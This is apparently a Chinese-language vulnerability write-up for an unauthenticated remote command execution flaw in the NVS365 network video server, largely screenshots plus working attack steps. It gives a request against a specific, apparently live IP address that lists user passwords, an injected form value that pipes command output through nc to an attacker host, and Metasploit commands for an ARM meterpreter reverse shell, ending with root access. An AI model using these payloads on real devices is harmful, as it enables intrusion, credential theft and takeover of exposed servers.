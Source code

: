 # NVS365网络视频服务器后台任意命令执行漏洞

# 

# 该漏洞关联上一份漏洞 《NVS365网络视频服务器密码信息未授权访问漏洞》

其实也不用关联
后面发现不需要登陆也可以触发命令执行漏洞，只需要请求url和提交data就行

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

漏洞版本：

NVS-365-V01

![](./images/media/image2.png){width="5.764583333333333in"
height="3.66875in"}

该漏洞可任意触发任意命令，获取服务器shell等

[http://188.59.188.232:8085/?jcpcmd=userpasswd%20-act%20list](http://188.59.188.232:8085/?jcpcmd=userpasswd -act list)

![](./images/media/3.jpg){width="5.760416666666667in"
height="0.9388888888888889in"}

在网络管理这块 可直接触发RCE漏洞

![](./images/media/4.jpg){width="5.764583333333333in"
height="2.6305555555555555in"}


触发命令执行命令

Pwd:

result=%09%09&address=\|pwd\|nc ip 端口 &size=16

![lQLPJxSMXaaSNu5bzQVWsJRF7Rolhi8uA4XLQJdAZgA_1366_91](./images/media/9.jpg){width="5.7625in"
height="0.3840277777777778in"}

Uname -a

![](./images/media/10.jpg){width="5.761111111111111in"
height="3.9583333333333335in"}

Id: root权限

![](./images/media/11.jpg){width="5.758333333333334in"
height="2.7375in"}

上传shell，metasploit生成linux ram木马

![](./images/media/12.jpg){width="5.7625in"
height="3.7423611111111112in"}

Msf监听：

msf \> use exploit/multi/handler

msf \> set payload linux/armle/meterpreter/reverse_tcp

msf \> set LHOST xxx.xxx.xxx.xxx

msf \> set PORT 4466

msf \> run

![](./images/media/13.jpg){width="5.763194444444444in"
height="5.479166666666667in"}

进入shell

![](./images/media/image14.png){width="2.8645833333333335in"
height="0.875in"}

